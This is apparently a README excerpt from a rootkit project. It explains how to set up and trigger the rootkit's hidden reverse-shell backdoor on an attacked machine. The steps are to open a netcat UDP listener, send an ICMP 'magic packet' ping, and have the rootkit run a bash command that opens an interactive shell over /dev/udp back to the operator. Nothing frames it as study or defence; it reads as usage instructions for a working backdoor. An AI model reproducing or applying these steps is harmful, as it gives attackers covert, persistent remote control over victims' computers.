 **Reverse Shell**

To use the reverse shell, you must input an IP address and port during the setup process. The reverse shell will only connect to this IP address and this port so that installing this rootkit on a machine doesn't leave the machine completely exposed.

The reverse shell can be activated by sending an ICMP ping to the IP address of the machine you are attackiing. Make sure to have a `netcat` listener already open on the port you entered during setup.

On `macOS`, you would enter this series of commands to open a reverse shell:

```bash
$ nc -u -l PORT  # Open a netcat listener in one tab
# Open a new terminal tab
$ ping IP_ADDRESS_BEING_ATTACKED # Send magic packet
```

When the machine being attacked gets the ping, it will compare the source IP address of the ping to the IP address entered during configuration. If they match, it will run `$ echo "sh -i >& /dev/udp/IP/PORT 0>1&" | bash` to spawn a reverse shell.
